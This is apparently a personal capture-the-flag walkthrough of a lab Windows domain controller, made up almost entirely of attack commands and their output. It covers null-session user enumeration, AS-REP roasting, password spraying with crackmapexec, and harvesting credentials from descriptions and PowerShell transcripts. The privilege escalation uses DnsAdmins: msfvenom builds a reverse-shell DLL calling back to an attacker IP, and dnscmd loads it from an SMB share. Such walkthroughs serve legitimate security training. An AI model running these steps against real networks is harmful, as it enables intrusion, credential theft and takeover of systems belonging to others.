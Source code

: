 # we try to enumerate users and group domains

rpcclient -U "" 10.10.10.169 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' > users.txt

rpcclient -U "" 10.10.10.169 -N -c "enumdomgroups" | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]'
Enterprise Read-only Domain Controllers
Domain Admins
Domain Users
Domain Guests
Domain Computers
Domain Controllers
Schema Admins
Enterprise Admins
Group Policy Creator Owners
Read-only Domain Controllers
Cloneable Domain Controllers
Protected Users
Key Admins
Enterprise Key Admins
DnsUpdateProxy
Contractors

#we can check the members of the admin group with the rid and then check who is that member.
rpcclient -U "" 10.10.10.169 -N -c "querygroupmem 0x200"
	rid:[0x1f4] attr:[0x7]
	
rpcclient -U "" 10.10.10.169 -N -c "queryuser 0x1f4"
	(snip) Administrator

#we try to get a TGT but it is not possible.

/home/rickybana/.local/bin/GetNPUsers.py -no-pass -usersfile users.txt megabank.local/

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User ryan doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User marko doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sunita doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User abigail doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User marcus doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sally doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User fred doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User angela doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User felicia doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User gustavo doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ulf doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User stevie doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User claire doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User paulo doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User steve doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User annette doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User annika doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User per doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User claude doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User melanie doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zach doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User simon doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User naoki doesn't have UF_DONT_REQUIRE_PREAUTH set


#There is a password for a user when displaying the info

rpcclient -U "" 10.10.10.169 -N -c "querydispinfo"
(snip)
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko	Name: Marko Novak	Desc: Account created. Password set to Welcome123!
(snip)

#We try to winrm and smb with the cred marko:Welcome123! but it didnt work so we are going to spray that password to other users and see.

crackmapexec smb 10.10.10.169 -u users.txt -p Welcome123! --continue-on-success
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 

#we found valid credentials 
crackmapexec smb 10.10.10.169 -u melanie -p Welcome123!
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 

#we can winrm with it and find the first flag.

crackmapexec winrm 10.10.10.169 -u 'melanie' -p 'Welcome123!'
SMB         10.10.10.169    5985   RESOLUTE         [*] Windows 10.0 Build 14393 (name:RESOLUTE) (domain:megabank.local)
HTTP        10.10.10.169    5985   RESOLUTE         [*] http://10.10.10.169:5985/wsman
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)

evil-winrm -i 10.10.10.169 -u 'melanie' -p 'Welcome123!'

# We check privileges, nothing intersting. Check the folders present in users too and there is ryan, but we cannot access the folder. We can check net privileges as well.

whoami /all
(snip)
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

C:\Users\ryan> dir
Access to the path 'C:\Users\ryan' is denied.

net user melanie
(snip)
Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users
(snip)

net user ryan
Local Group Memberships
Global Group memberships     *Domain Users         *Contractors

#we will need to check what the contractors groups can do. In the meantime if we see around the directories there is nothing that peaks our interest. However we are not able to see all hidden folders, so we need to check for those too and that way we find an interesting folder that is not usually present (PSTranscripts) and a file.

dir -Force
    Directory: C:\PSTranscripts\20191203
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt

#the file contains a password for the user ryan.

ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!

#validate those credentials with crackmapexec and gain access via winrm. Note: it says that is pwned for some strange reason but the user is not admin. 

crackmapexec winrm 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!
SMB         10.10.10.169    5985   RESOLUTE         [*] Windows 10.0 Build 14393 (name:RESOLUTE) (domain:megabank.local)
HTTP        10.10.10.169    5985   RESOLUTE         [*] http://10.10.10.169:5985/wsman
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\ryan:Serv3r4Admin4cc123! (Pwn3d!)

evil-winrm -i 10.10.10.169 -u 'ryan' -p 'Serv3r4Admin4cc123!'

#When checking privileges we see the user is part of Dnsadmins group.

whoami /all
(snip)
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
(snip)

#Enumerate the groups and check the localgroup and the particular group. With the 3 following commands.

net group
net localgroup 
net localgroup DnsAdmins

#same as GTFObins for linux there is LOLBAS for windows. Go to https://lolbas-project.github.io/# website and search for dns. We are gonna run a command in the target that will download a malicious dll, the service will need to be stopped and then started to download. We craft the dll with msfvenom, place our nc listener, and create an smb shared folder. We are going to use rlwrap (install with apt if needed) so we have other features.


msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 -f dll -o pwned.dll

sudo rlwrap nc -nlvp 443

/home/rickybana/.local/bin/smbserver.py smbFolder $(pwd) -smb2support

# We are ready then to execute the command and then stop/start the service.

dnscmd.exe /config /serverlevelplugindll \\10.10.14.4\smbFolder\pwned.dll

sc.exe stop dns

sc.exe start dns

# we should get a console now with privilege access.

C:\Windows\system32>whoami 
whoami 
nt authority\system

